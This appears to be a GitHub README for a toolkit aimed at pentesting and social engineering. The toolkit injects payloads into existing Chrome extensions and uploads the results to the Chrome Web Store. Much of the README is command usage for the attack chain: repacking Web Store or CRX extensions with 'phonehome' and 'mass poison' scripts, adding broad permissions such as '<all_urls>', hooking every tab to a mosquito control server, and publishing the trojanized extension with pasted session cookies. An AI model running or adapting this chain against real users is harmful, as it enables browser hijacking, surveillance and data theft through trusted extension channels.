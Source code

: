 Various tools for dealing with Chrome Extensions, especially valuable for pentesting / social engineering assignments.

Authors:
 
 - Krzysztof Kotowicz - @kkotowicz - [blog](http://blog.kotowicz.net)
 - Michele '@antisnatchor' Orru


Injector
--------
Bunch of scripts for injecting existing extensions with new code:
Extensions can be downloaded from Chrome WebStore (repacker-webstore) or taken from crx files (repacker-crx).

Requirements:
 
 - bash
 - ruby
 - zip (cmd line)
 - curl (cmd line)
 - Google Chrome (used in crx mode only)

Usage:

    # get extension from Web Store, add payloads/phonehome.js and copy the extension to repacked-dir/
    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk dir repacked-dir payloads/phonehome.js

    # Same, but pack into repacked.zip instead
    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk zip repacked.zip payloads/phonehome.js
    
    # Create new CRX with Google Chrome
    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk crx repacked.crx payloads/phonehome.js

    # Inject into existing CRX file
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/phonehome.js

    # Add some permissions into manifest.json
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/phonehome.js "tabs,proxy"
    
    # Add persistent content script file launching on every tab
    $ echo 'console.log(location.href)' > cs.js
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/cs_mass_poison.js "tabs,<all_urls>" cs.js

For example - mass poisoning every tab with [mosquito](https://github.com/koto/mosquito):

    # start mosquito server:
    $ cd path/to/mosquito 
    $ python mosquito/start.py 8082 4444 --http 8000

    # generate mosquito hook:
    # - visit http://localhost:8000/generate
    # - save hook as cs.js

    # inject mosquito dropper into extension:
    $ injector/repacker-crx.sh original.crx crx repacked.crx payloads/cs_mass_poison.js "tabs,<all_urls>" cs.js


Webstore Uploader
-----------------
Script for uploading and publishing Chrome Extensions packed in zip files in Chrome Web Store

Requirements: 

 - ruby

Usage:

    # Preparation:

    1. Create Chrome developer account
    2. Login at https://chrome.google.com/webstore/developer/dashboard/
    3. Pay your $5 one time fee (credit card needed)
    4. Get SID, SSID, HSID cookies and paste their values in webstore_uploader/config.rb file

    # Get Chrome extension code
    #  e.g. run Injector in zip mode:

    $ injector/repacker-webstore.sh clcbnchcgjcjphmnpndoelbdhakdlfkk zip repacked.zip payloads/phonehome.js

    # (optional) - prepare screenshot / description file

    # publish the extension right away
    $ ruby webstore_uploader/webstore_upload.rb repacked.zip publish description.txt screenshot.png

    # or just upload & save it:
    $ ruby webstore_uploader/webstore_upload.rb repacked.zip save description.txt screenshot.png

    # you can access the extension from your developer dashboard